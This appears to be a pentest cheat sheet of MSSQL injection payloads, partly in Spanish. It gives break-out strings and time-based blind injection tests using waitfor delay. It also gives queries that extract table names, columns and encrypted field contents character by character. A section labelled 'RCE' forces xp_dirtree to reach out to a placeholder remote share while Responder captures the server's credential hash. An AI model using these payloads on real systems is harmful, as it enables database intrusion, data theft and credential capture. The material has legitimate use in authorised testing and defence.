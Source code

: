 ```yaml
---
layout: app
title: "SQl Injection"
tags: ["SQL","sql injection"]
code:
  - title: Get Information MSSQL
    description: Get Information
    sample: concat([column],[separator], [column2])<br/>
            string_add(concat([column],[separator], [column2]),'[separator]')
  - title: RCE MSSQL
    sample: ;exec sp_configure 'show advanced options',1<br/>
            ;exec xp_dirtree '\\X.X.X.X\sharefolder\sharefile' ;
  
---
```


# MSSQL

```
%' --Like
Valor' 
Valor' -- -
```

### RCE

```sql
;exec sp_configure 'show advanced options',1
;exec xp_dirtree '\\X.X.X.X\sharefolder\sharefile' ;-- -
```

```bash
sudo Responder -I <iface>
```

### Extraer Información

```sql
concat(<column>,<separator>, <column2>)
string_add(concat(<column>,<separator>, <column2>),'<separator>')
```

## Time Based

```jsx
;IF 1=(select 1 from sys.tables where substring(name,1,1)='{tablename}') waitfor delay '00:00:05'
;IF 1=(select 1 where substring(db_name(),1,1)='h') waitfor delay '00:00:05';
```

# Queries

### Get columns of a table

```sql
Select top 1 null,null from sys.columns c inner join sys.tables t on 
c.object_id=t.object_id where t.name='<tablename>' and substring(c.name,1,<offset>)='<letter>'
```

### Get Information

```sql
Select  * from <table> where ascii(substring(<column>,1,1))=#NUMBER 33-126
```

### From Encrypted Field

```sql
select * from <table> where substring(CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), <column>), 2),1,<offset>)='<digit|letter>' --sp_password
select * from <table> where substring(DecryptByPassPhrase('<password>', <column>),1,<offset>)='<digit|letter>' --sp_password
```